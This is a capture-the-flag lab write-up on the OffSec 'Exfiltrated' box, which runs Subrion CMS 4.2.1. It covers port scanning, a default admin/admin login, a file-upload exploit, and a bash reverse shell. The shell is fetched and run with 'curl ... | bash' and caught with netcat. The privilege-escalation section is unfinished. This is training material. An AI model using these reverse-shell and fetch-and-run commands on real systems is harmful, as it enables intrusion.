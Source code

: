 ```yaml
---
description: 11/22/2021
---
```


# Exfiltrated (Easy)

## Information Gathering

Scanned all TCP ports:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
|_http-favicon: Unknown favicon MD5: 09BDDB30D6AE11E854BFF82ED638542B
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
All 1000 scanned ports on exfiltrated.offsec (192.168.90.163) are in ignored states.
```

Notes:

* 80/HTTP - <mark style="color:yellow;">added exfiltrated.offsec to /etc/hosts</mark>
  * CMS- Subrion -- Can we enumerate the version? -- Yes, <mark style="color:yellow;">v4.2.1</mark>
  * Apache 2.4.41
* Perform quick win attempt with searchsploit on both services above

## Enumeration

### Port 80 - HTTP (Apache) -- exfiltrated.offsec

Visual Inspection:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Wappalyzer:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Searchsploit results of Subrion CMS:

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

Enumerated Subrion Version:

* Found via selecting the "Go to admin dashboard" button on the main site

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Version has been enumerated <mark style="color:yellow;">Subrion v4.2.1</mark>
* We have 4 exploits that are targeted towards this version

### Subrion Default Credentials

A simple Google search for Subrion Default Creds gives us this first site with lucrative and guessable information

<figure><img src="../../../.gitbook/assets/image (5) (10).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">Attempted admin/admin login and it worked!</mark>

### Subrion Admin Panel

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### 49876.py (Arbitrary File Upload)

<figure><img src="../../../.gitbook/assets/image (4) (12).png" alt=""><figcaption></figcaption></figure>

* Viewed the python exploit in gedit to ensure I was using the proper syntax!
* I also had to copy/paste the explicit directory from the URL bar to the terminal for it to get the correct path (side note)
* However, this shell was really buggy so I ended up transferring a bash reverse shell to upgrade my shell

### Upgrading Web Shell -> Reverse Shell

Create bash reverse shell (rev\_shell):

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.49.90/1337 0>&1
```

Start Netcat listener:

```
nc -lnvp 1337
```

Start HTTP server on Kali:

```
python3 -m http.server 80
```

Transfer w/ curl:

```
curl 192.168.49.90/rev_shell | bash
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption><p>Terminator Command Window</p></figcaption></figure>

Upgrade Shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

* Time to priv esc!

## Privilege Escalation

### Local enumeration

<mark style="color:yellow;">Cronjobs</mark>

```
cat /etc/crontab
```

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">/opt/image-exif.sh</mark> looks interesting
* I tried to replace the file and delete it with no luck

{% embed url="https://grumpygeekwrites.wordpress.com/2021/09/07/offensive-security-pg-practice-exfiltrated-walk-through-tutorial-writeup/" %}

### PrivEsc vector

## Proofs
